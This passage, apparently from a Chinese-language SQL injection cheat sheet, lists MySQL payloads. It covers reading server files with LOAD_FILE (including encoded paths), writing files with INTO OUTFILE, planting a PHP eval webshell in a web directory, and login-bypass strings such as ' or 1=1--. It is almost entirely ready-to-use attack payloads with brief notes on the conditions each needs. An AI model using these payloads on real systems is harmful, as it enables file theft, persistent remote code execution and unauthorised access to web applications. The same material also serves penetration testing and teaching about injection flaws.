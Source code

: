 ```
SELECT @@max_allowed_packet;
```

#### payload

直接使用绝对路径,注意对路径中斜杠的处理。
```mysql
UNION SELECT LOAD_FILE("C://TEST.txt") #

UNION SELECT LOAD_FILE("C:/TEST.txt") #

UNION SELECT LOAD_FILE("C:\\TEST.txt") #
```
使用编码
```
UNION SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116)) #

UNION SELECT LOAD_FILE(0x433a5c5c544553542e747874) #
```

### select导出
#### 条件
+ 一般要指定绝对路径
+ 需导出的目录有可写权限
+ 要outfile出的文件不能已经存在

#### payload
```
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';

UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';
```

#### 写入webshell
##### 条件
+ 需要知道网站的绝对物理路径，这样导出后的webshell可访问
+ 对需导出的目录有可写权限。

##### payload
```
UNION SELECT  "<?php eval($_POST['chybeta'])?>" INTO OUTFILE 'C:/phpstudy/WWW/test/webshell.php';
```

## 万能密码后台登陆
+ admin' --
+ admin' #
+ admin'/*
+ or '=' or
+ ' or 1=1--
+ ' or 1=1#
+ ' or 1=1/*
+ ') or '1'='1--
+ ') or ('1'='1--
